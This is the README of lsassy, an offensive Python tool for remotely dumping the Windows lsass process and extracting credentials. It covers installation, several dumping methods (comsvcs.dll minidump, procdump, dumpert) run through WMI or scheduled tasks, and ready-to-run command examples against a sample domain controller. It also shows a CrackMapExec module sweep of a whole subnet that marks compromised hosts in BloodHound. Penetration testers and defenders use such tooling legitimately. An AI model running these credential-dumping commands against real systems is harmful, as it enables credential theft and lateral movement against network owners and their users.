 # lsassy

[![PyPI version](https://d25lcipzij17d.cloudfront.net/badge.svg?id=py&type=6&v=1.1.7&x2=0)](https://pypi.org/project/lsassy/) [![Twitter](https://img.shields.io/twitter/follow/hackanddo?label=HackAndDo&style=social)](https://twitter.com/intent/follow?screen_name=hackanddo)

![CME Module example](https://github.com/Hackndo/lsassy/raw/master/assets/example.png)

Python library to remotely extract credentials. This [blog post](https://en.hackndo.com/remote-lsass-dump-passwords/) explains how it works.

You can check the [wiki](https://github.com/Hackndo/lsassy/wiki)

This library uses [impacket](https://github.com/SecureAuthCorp/impacket) project to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirements)                | Requirements to install lsassy from source              |
| [Installation](#installation)                | Installation commands from pip or from source           |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [Advanced Usage](#advanced)                  | Advanced usage (Dumping methods, execution methods, ...)|
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples-1)                      | Command line examples for standalone and CME module     |
| [Issues](#issues)                            | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |
| [Contributors](#contributors)                | People contributing to this tool                        |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Installation

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>
```

## Advanced

### Dumping methods

This tool can dump lsass in different ways.

Dumping methods (`-m` or `--method`)
* **0**: Try all methods (dll then procdump) to dump lsass, stop on success (Requires -p if dll method fails)
* **1**: comsvcs.dll method, stop on success (default)
* **2**: Procdump method, stop on success (Requires -p)
* **3**: comsvcs.dll + Powershell method, stop on success
* **4**: comsvcs.dll + cmd.exe method
* **5**: (unsafe) Dumpert method, stop on success (Requires -u)

#### comsvcs.dll method

This method **only uses built-in Windows files** to extract remote credentials. It uses **minidump** function from **comsvcs.dll** to dump **lsass** process.

This method can only be used when context has **SeDebugPrivilege**. This privilege is either in Powershell local admin context, or cmd.exe SYSTEM context.

Two execution methods can be used.
1. **WMIExec** with cmd.exe (no SeDebugPrivilege), or powershell (SeDebugPrivilege)
2. **ScheduledTasks** with SYSTEM context (SeDebugPrivilege)

#### Procdump method

This method uploads **procdump.exe** from SysInternals to dump **lsass** process. It will first try to execute
procdump using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Dumpert method

This method uploads **dumpert.exe** to dump **lsass** process. It will first try to execute
dumpert using WMI, and if it fails it will create a remote task, execute it and delete it.

#### Examples

```bash
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 0 -p /path/to/procdump.exe -u /path/to/dumpert.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 1
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 2 -p /path/to/procdump.exe
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 3
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 4
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target> -m 5 -u /path/to/dumpert.exe
```

### Remote parsing only

lsassy can parse an already dumped lsass process.

```
lsassy [--hashes [LM:]NT] --dumppath /share/path/to/dump.dmp [<domain>/]<user>[:<password>]@<target>
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](https://github.com/Hackndo/lsassy/tree/master/cme)

## Examples

### lsassy

```bash
# RunDLL Method
lsassy adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Procdump Method
lsassy -m 2 -p /tmp/procdump.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Dumpert Method
lsassy -m 5 -u /tmp/dumpert.exe adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# Remote parsing only
lsassy --dumppath C$/Windows/Temp/lsass.dmp adsec.local/jsnow:Winter_is_coming@dc01.adsec.local

# NT Hash Authentication
lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrator@desktop01.adsec.local
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound 
```

### ChangeLog

```
v1.1.0
------
* Better execution process : --method flag has been added and described in help text
* Uses random dump name
* Chose between cmd, powershell, dll and/or procdump methods
* CME module is now using light lsassy WMIExec et TASKExec implementation
* Bug fixes

v1.0.0
------
* Built-in lsass dump
** Lsass dump using built-in Windows
** Lsass dump using procdump (using -p parameter)
* Add --dumppath to ask for remote parsing only
* Code refactoring
* Add --quiet to quiet output

v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issues

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas

## Contributors

* [ITPPA](https://github.com/ITPPA/)
* [viaccoz](https://github.com/viaccoz)
* [blurbdust](https://github.com/blurbdust)
